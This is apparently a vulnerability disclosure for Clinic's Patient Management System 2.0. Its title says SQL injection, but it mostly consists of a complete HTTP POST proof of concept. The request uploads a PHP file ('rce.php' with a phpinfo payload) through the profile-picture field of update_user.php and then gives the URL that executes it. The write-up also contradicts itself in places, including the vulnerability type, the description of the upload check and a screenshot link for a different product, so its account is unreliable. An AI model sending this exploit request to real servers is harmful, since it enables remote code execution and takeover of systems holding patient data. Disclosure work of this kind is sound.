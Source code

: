 #### Title: Clinic's Patient Management System 2.0 SQLi
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/SQLi/POC.md
#### Description：
### At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as: HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.


#### Payload used:
`<?php phpinfo();?>`

### POC
```
POST /pms/update_user.php?user_id=1 HTTP/1.1
Host: localhost
Content-Length: 828
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHTbuuF5mdaA9K4Fw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/pms/update_user.php?user_id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=kbnmikgfhdo4qe7crgidipoqc9
Connection: close

------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="hidden_id"

1
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="display_name"

Administrator
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="profile_picture"; filename="rce.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="save_user"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw--
```

#### Access below URL:
`http://localhost/pms/user_images/1656897223rce.php`

![image](https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.png)

